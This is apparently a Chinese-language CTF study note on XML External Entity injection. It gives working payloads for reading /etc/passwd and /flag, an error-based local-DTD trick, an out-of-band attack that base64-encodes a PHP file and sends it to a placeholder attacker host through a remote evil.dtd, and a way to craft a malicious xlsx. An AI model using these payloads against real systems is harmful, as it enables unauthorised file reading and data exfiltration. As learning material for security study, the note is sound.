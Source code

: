 - # 参考
	- https://www.cnblogs.com/20175211lyz/p/11413335.html
	- XML 外部实体注入
- # 概念
	- 内部实体
		- ```xml
		  <!DOCTYPE note [
		      <!ENTITY a "admin">
		  ]>
		  ```
	- 参数实体
		- ```xml
		  <!DOCTYPE note [
		      <!ENTITY % b "<!ENTITY a \'admin\'>">
		      %b;
		  ]>
		  <i>&a;</i>
		  ```
	- 外部参数实体
		- ```xml
		  <!DOCTYPE note> [
		      <!ENTITY % d SYSTEM "http://xxx.xxx.xxx.xxx/xml.dtd">
		      %d;
		  ]>
		  <note>&d1;</note>
		  ```
	- 转译
		- ```xml
		  <!DOCTYPE note [
		      <!ENTITY % b "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x61;&#x20;&#x27;&#x61;&#x73;&#x64;&#x66;&#x27;&#x3e;">
		      %b;
		  ]>
		  <note>&a;</note>
		  ```
	- PEReferences forbidden
		- 在标记声明里不能使用参数声明
- # PHP读取XML
	- {{embed ((632ac609-e10a-42ee-89c4-df1a3ce9b17d))}}
- # 操作
	- ```xml
	  <?xml version="1.0" encoding="UTF-8"?>
	  <!DOCTYPE testtest [<!ENTITY xxe SYSTEM "file:///etc/passwd">  ]>
	  <user><username>&xxe;</username><password>admin</password></user>
	  ```
	- 在禁止加载外部实体时利用报错
		- ```xml
		  <?xml version="1.0"?>
		  <!DOCTYPE message[
		    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
		    <!ENTITY % ISOamso '
		    <!ENTITY &#x25; file SYSTEM "file:///flag">
		    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///aaaaa/&#x25;file;&#x27;>">
		    &#x25;eval;
		    &#x25;error;
		  '>
		  %local_dtd;
		  ]>
		  ```
		- 上面`ISOamso`中的字符串在解码后会变成：
		- ```xml
		  <!DOCTYPE message[
		  <!ENTITY % file SYSTEM "file:///flag">
		  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///aaaaa/%file;'>">
		  %eval;
		  %error;
		  ]>
		  ```
		- java 中 xxe 的`file://`可以读取目录
- # OOB
  id:: 64301d45-52ef-4288-a4f1-f268848799a7
	- victim
	  
	  ```xml
	  <!DOCTYPE updateProfile [
	    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php">
	    <!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
	    %dtd;
	    %send;
	  ]>
	  ```
	- server: evil.dtd:
	- ```xml
	  <!ENTITY % all
	    "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx/?data=%file;'>"
	  >
	  %all;
	  ```
- # 制作恶意xlsx文件
	- 修改后缀为zip并解压一个xlsx文件，修改里面的xml文件，再压缩
	- 示例：[[CTF/WP/BUUCTF/网鼎杯 2020 青龙组 filejava]]
